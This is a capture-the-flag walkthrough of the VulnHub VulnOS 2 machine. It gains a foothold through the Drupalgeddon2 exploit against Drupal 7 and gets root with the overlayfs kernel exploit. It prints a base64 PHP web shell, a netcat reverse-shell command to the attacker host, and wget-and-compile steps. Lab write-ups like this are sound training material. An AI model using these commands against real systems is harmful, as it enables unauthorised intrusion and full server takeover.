 ```yaml
---
layout: post
title: VulnHub - VulnOS 2
---
```


**Description:** Is a vulnerable virtual machine designed to improve penetration testing skills.

**Author:** c4b3rw0lf

**Operating System:** Linux

**Aim:** To get root shell and read the flag.

**Download:** [https://www.vulnhub.com/entry/vulnos-2,147/](https://www.vulnhub.com/entry/vulnos-2,147/)

## Information Gathering
### Host Discovery

A ping scan was performed to locate the target host, the script you can find it [here](https://github.com/s4rgaz/hdiscovery.git).

```bash
root@kali:~$ hdiscovery.py -r 192.168.179.0/24
192.168.179.172 => up
```


### Port Scanning

A full TCP/UDP scan was performed to detect open ports with unicornscan.

```bash
root@kali:~$ us -mT -Iv 192.168.179.172:a -r 3000 -R 3  && us -mU -Iv 192.168.179.172:a -r 3000 -R 3
...
TCP open                     ssh[   22]         from 192.168.179.172  ttl 64 
TCP open                    http[   80]         from 192.168.179.172  ttl 64 
TCP open                     irc[ 6667]         from 192.168.179.172  ttl 64
```


### Service Enumeration

An aggressive scan was performed to detect more information about the open ports.

```bash
root@kali:~$ nmap -n -v -A -p22,80,6667 192.168.179.172 -oN nmap/service-enum.txt
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: VulnOSv2
6667/tcp open  irc     ngircd
```

### Web Enumeration

The web page contains a link called **website**, we click on it.

![](/assets/images/vulnos2/screenshot-1.png)

Another web page is displayed on the screen, looking at the source it was possible to detect that it's a Drupal 7.

![](/assets/images/vulnos2/screenshot-2.png)

![](/assets/images/vulnos2/screenshot-3.png)

## Exploitation
### Remote Code Execution

A remote code execution vulnerability exists within multiple subsystems of Drupal 7.x and 8.x. This potentially allows attackers to exploit multiple attack vectors on a Drupal site, which could result in the site being completely compromised.


We download the exploit and install the dependencies.

```bash
root@kali:~$ git clone https://github.com/dreadlocked/Drupalgeddon2
root@kali:~$ cd Drupalgeddon2 
root@kali:~/Drupalgeddon2$ gem install highline
Successfully installed highline-2.0.3
Parsing documentation for highline-2.0.3
Done installing documentation for highline after 10 seconds
1 gem installed
```

We run the exploit adding the target URL as parameter.

```bash
root@kali:~/Drupalgeddon2$ ./drupalgeddon2.rb http://192.168.179.172/jabc/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://192.168.179.172/jabc/
--------------------------------------------------------------------------------
[!] MISSING: http://192.168.179.172/jabc/CHANGELOG.txt    (HTTP Response: 404)
[!] MISSING: http://192.168.179.172/jabc/core/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://192.168.179.172/jabc/includes/bootstrap.inc    (HTTP Response: 200)
[!] WARNING: Could be a false-positive [1-1], as the file could be reported to be missing
[!] MISSING: http://192.168.179.172/jabc/includes/bootstrap.inc    (HTTP Response: 200)
[!] MISSING: http://192.168.179.172/jabc/core/includes/bootstrap.inc    (HTTP Response: 404)
[!] MISSING: http://192.168.179.172/jabc/includes/database.inc    (HTTP Response: 404)
[+] Header : v7 [X-Generator]
[+] Found  : http://192.168.179.172/jabc/    (HTTP Response: 200)
[+] Metatag: v7.x [Generator]
[!] MISSING: http://192.168.179.172/jabc/    (HTTP Response: 200)
[+] Drupal?: v7.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo OZVTAGPS
[+] Result : OZVTAGPS
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.179.172/jabc/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.179.172/jabc/shell.php' -d 'c=hostname'
VulnOSv2>> whereis nc
nc: /bin/nc /bin/nc.traditional /usr/share/man/man1/nc.1.gz
```

As we can see the exploitation was successful, then we set up a netcat listener on port 443 and execute the following netcat instruction:

```bash
VulnOSv2>> nc 192.168.179.1 443 -e /bin/bash
```

We got a shell with low privileges.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.172] 49471
python -c "import pty; pty.spawn('/bin/bash')"
www-data@VulnOSv2:/var/www/html/jabc$
```

This kernel version is vulnerable to the following exploit.

```bash
www-data@VulnOSv2:/var/www/html/jabc$ cat /proc/version
cat /proc/version
Linux version 3.13.0-24-generic (buildd@komainu) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014
```

```bash
root@kali:~$ searchsploit ubuntu 3.13.0                                                                                       
----------------------------------------------------------------------------------------------------------- ---------------------------
 Exploit Title                                                                                             |  Path                   
----------------------------------------------------------------------------------------------------------- ---------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation       | linux/local/37292.c
...
----------------------------------------------------------------------------------------------------------- ---------------------------
```

## Privilege Escalation
### Kernel Exploit

The overlayfs implementation in the linux (aka Linux kernel) package before3.19.0-21.21 in Ubuntu through 15.04 does not properly check permissionsfor file creation in the upper filesystem directory, which allows localusers to obtain root access by leveraging a configuration in whichoverlayfs is permitted in an arbitrary mount namespace.

We copy the exploit to our current directory and start a web server with python.

```bash
root@kali:~$ searchsploit -m linux/local/37292.c

root@kali:~$ python3 -m http.server 80
```

On the target machine we download it, compile it and execute it. As we can see now we are root.

```bash
www-data@VulnOSv2:/tmp$ wget 192.168.179.1/37292.c -O ofs.c

www-data@VulnOSv2:/tmp$ gcc ofs.c -o ofs
gcc ofs.c -o ofs
www-data@VulnOSv2:/tmp$ ./ofs
./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

# cd /root
cd /root
# ls
ls
flag.txt
# cat flag.txt
cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
```


